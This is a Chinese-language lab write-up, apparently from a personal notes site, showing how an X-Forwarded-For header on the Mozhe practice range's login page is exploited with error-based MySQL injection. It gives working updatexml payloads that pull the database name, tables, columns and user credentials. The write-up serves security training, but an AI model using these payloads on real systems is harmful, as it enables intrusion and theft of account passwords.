 ```yaml
---
{"dg-publish":true,"title":null,"dg-path":"安全/靶场/墨者_XFF注入.md","permalink":"/安全/靶场/墨者_XFF注入/","dgPassFrontmatter":true}
---
```


进去是一个登陆界面
![Pasted image 20240730155230.png](/img/user/picture/Pasted%20image%2020240730155230.png)



随便输一个抓包发现发现会返回ip地址
![Pasted image 20240730155348.png](/img/user/picture/Pasted%20image%2020240730155348.png)
![Pasted image 20240730155356.png](/img/user/picture/Pasted%20image%2020240730155356.png)

这里猜测他在代码中应该是有获取我们ip地址的操作，然后会代入数据库进行查询，所以我们试一下添加XFF头会不会带入查询
`X-Forwarded-For:`


![Pasted image 20240730160041.png](/img/user/picture/Pasted%20image%2020240730160041.png)
![Pasted image 20240730160050.png](/img/user/picture/Pasted%20image%2020240730160050.png)
发现他确实有返回123

加上单引号有报错
![Pasted image 20240730160219.png](/img/user/picture/Pasted%20image%2020240730160219.png)
![Pasted image 20240730160212.png](/img/user/picture/Pasted%20image%2020240730160212.png)

则这里就是一个出入点
开始利用XFF头进行注入



获取到数据库名称
`',updatexml(1,concat(0x7e,(select database()),0x7e),1))#`
![Pasted image 20240730160332.png](/img/user/picture/Pasted%20image%2020240730160332.png)


获取到表名
```sql
' or updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema='webcalendar'),0x7e),1))#
```

![Pasted image 20240730160442.png](/img/user/picture/Pasted%20image%2020240730160442.png)


获取到字段名
```sql
' or updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='user'),0x7e),1))#
```
![Pasted image 20240730160522.png](/img/user/picture/Pasted%20image%2020240730160522.png)


最后获取到数据是账号和密码
```sql
' or updatexml(1,concat(0x7e,(select group_concat(username,':',password)from user limit 0,1),0x7e),1))#
```
![Pasted image 20240730160558.png](/img/user/picture/Pasted%20image%2020240730160558.png)



![Pasted image 20240730160643.png](/img/user/picture/Pasted%20image%2020240730160643.png)



